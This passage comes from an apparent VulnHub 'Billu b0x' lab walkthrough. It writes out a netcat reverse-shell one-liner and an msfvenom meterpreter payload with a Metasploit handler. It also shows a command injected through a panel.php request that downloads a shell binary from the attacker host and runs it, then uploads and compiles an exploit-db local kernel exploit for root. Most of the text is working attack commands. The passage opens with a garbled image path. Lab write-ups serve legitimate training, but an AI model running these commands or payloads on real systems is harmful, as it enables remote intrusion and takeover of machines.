     ```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.227.135 1234 >/tmp/f
    ```

![9-14.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-14.png)

2. Using msfvenom and meterpreter. 
    Generate the payload
    ```
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.109.128 LPORT=1234 -f elf > shell.elf

    Start the listener
    use exploit/multi/handler
    set PAYLOAD linux/x86/meterpreter/reverse_tcp
    set LHOST 192.168.109.128
    set LPORT 1234
    set ExitOnSession false
    exploit -j -z
    ```
Get the payload;
From Burp
    POST /panel.php?cmd=wget http://192.168.109.128/shell.elf -O /tmp/shell.elf && chmod 744 /tmp/shell.elf && cd /tmp && ./shell.elf
    ...

    load=uploaded_images/shell.gif&continue=1
From this we get the meterpreter shell.

## Privilege Escalation
    run post/multi/recon/local_exploit_suggester
    upload /usr/share/exploitdb/platforms/linux/local/37292.c
    shell
    gcc 37292.c -o ofs
    chmod +x ofs
    whoami

Then you done.
